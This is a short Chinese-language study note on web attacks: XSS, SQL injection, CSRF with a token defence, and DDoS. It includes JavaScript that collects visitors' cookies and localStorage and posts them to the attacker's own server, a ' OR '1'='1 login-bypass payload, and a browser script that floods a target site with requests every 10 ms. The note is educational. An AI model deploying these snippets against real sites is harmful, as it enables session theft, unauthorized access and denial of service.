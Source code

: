 #Web安全機制

## #XSS(Cross-site Scripting)

1.假設網站有一個留言板

![](/assets/螢幕快照 2017-02-02 下午2.02.41.png)

2.但該網站沒有過濾script標籤，而是直接使用innerHTML讓使用者輸入後直接顯示

3.這時假設剛才的test.js 改為 你的網域下的一隻js程式碼，然後該程式碼內含有

```
var test1 = document.cookie;
function allStorage() {
    var values = [],
        keys = Object.keys(localStorage),
        i = keys.length;

    while ( i-- ) {
        values.push( localStorage.getItem(keys[i]) );
    }

    return values;
}
var test2 = allStorage(); //取得所有localstorage傳給變數test2

最後把test1與test2用ajax傳給你自己的server，即可獲得每個瀏覽他網站的使用者cookie與localstorage

```

最後把test1與test2用ajax傳給你自己的server，即可獲得每個瀏覽他網站的使用者cookie與localstorage

Ex:
```
$.post('https://我的站點/test',{cookie: test1,localStorage: test2})
```


## #SQL Injection



```
var userName = req.body.username;
var passWord = req.body.password;

strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

POST時將資料寫入

```
userName = "1' OR '1'='1";
與
passWord = "1' OR '1'='1";

```
將導致原本的SQL字串被填為

```
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

上述語句等同於

```
strSQL = "SELECT * FROM users;"
```

將會取出所有使用者

https://zh.wikipedia.org/wiki/SQL%E8%B3%87%E6%96%99%E9%9A%B1%E7%A2%BC%E6%94%BB%E6%93%8A

## #CSRF(Cross-site request forgery) 

偽造用戶請求像網站發出惡意請求

防範方式:

server 在render畫面時會給出 csrfhash，並隱藏在表單中，之後client端提交，此csrf會跟著送到server並且進行比對

```
<form method="POST" action="/upload?_csrf={{ csrfhash }}" enctype="multipart/form-data">
  title: <input name="title" />
  file: <input name="file" type="file" />
  <button type="submit">上傳</button>
</form>
```

## #DDos(distributed denial-of-service attack)

中文為:分散式阻斷服務攻擊

假設我們寫如下程式
```
function imgflood() {  
  var TARGET = 'test.website.com'
  var URI = '/picture?'
  var pic = new Image()
  var rand = Math.floor(Math.random() * 1000)
  pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflood, 10)
```
之後瀏覽此網頁的使用者將會每0.01秒產生一個request到目標網站

所以不知情的使用者如果點選了我們的網站，他也會加入對目標網站攻擊的行列



